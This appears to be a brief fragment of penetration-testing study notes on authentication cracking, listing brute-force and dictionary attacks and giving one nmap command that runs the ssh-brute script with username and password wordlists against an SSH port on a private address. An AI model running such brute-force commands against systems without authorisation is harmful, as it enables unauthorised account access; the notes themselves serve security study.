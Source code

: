 #### Authentication Cracking
|Types|Bruteforce Attack | Dictionary Attack |
|---|---|---|

> Factors Affecting Online Password Cracking: Latency, Delay, Processing time,etc....

#### SSH Bruteforce With Nmap

```
nmap 192.168.143.67 -p 22 --script ssh-brute --script-args userdb=username.txt,passdb=password.txt

```

